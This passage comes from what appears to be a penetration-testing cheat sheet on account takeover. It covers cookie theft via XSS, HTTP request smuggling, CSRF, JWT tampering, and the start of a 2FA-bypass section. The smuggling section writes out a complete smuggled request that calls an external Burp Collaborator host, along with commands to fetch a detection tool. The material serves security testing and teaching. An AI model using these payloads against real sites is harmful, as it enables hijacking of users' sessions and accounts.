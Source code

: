 1. Find an XSS inside the application or a subdomain if the cookies are scoped to the parent domain : `*.domain.com`
2. Leak the current **sessions cookie**
3. Authenticate as the user using the cookie

## Account Takeover Via HTTP Request Smuggling

Refer to **HTTP Request Smuggling** vulnerability page.
1. Use **smuggler** to detect the type of HTTP Request Smuggling (CL, TE, CL.TE)
    ```powershell
    git clone https://github.com/defparam/smuggler.git
    cd smuggler
    python3 smuggler.py -h
    ```
2. Craft a request which will overwrite the `POST / HTTP/1.1` with the following data:
    ```powershell
    GET http://something.burpcollaborator.net  HTTP/1.1
    X: 
    ```
3. Final request could look like the following
    ```powershell
    GET /  HTTP/1.1
    Transfer-Encoding: chunked
    Host: something.com
    User-Agent: Smuggler/v1.0
    Content-Length: 83

    0

    GET http://something.burpcollaborator.net  HTTP/1.1
    X: X
    ```
    
Hackerone reports exploiting this bug
* https://hackerone.com/reports/737140
* https://hackerone.com/reports/771666

## Account Takeover via CSRF

1. Create a payload for the CSRF, e.g: "HTML form with auto submit for a password change"
2. Send the payload

## Account Takeover via JWT

JSON Web Token might be used to authenticate an user. 

* Edit the JWT with another User ID / Email
* Check for weak JWT signature 

## 2FA Bypasses

### Response Manipulation
